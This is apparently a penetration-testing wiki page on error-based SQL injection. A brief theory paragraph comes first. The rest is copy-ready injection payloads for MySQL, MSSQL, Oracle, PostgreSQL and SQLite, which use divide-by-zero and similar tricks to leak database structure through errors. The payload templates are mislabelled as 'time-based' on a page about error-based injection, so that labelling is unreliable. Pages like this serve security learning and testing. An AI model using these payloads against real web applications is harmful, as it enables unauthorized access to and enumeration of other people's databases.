 # Error Based

## Theory

Error-based SQLi is an in-band SQL Injection technique that relies on error messages thrown by the database server to obtain information about the structure of the database. In some cases, error-based SQL injection alone is enough for an attacker to enumerate an entire database. While errors are very useful during the development phase of a web application, they should be disabled on a live site, or logged to a file with restricted access instead.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to trigger an error wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1' AND IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Error Based  
1' AND IF((SELECT LENGTH(database()))=1,(SELECT table_name FROM information_schema.tables),'a')--
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Error Based  
1' AND CASE WHEN ((SELECT LEN(DB_NAME()))=1) THEN 1/0 ELSE NULL END--
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Error Based  
1' AND CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Error Based    
1' AND CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN 1/(SELECT 0) ELSE NULL END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE load_extension(1) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Error Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE load_extension(1) END--
```
{% endtab %}
{% endtabs %}
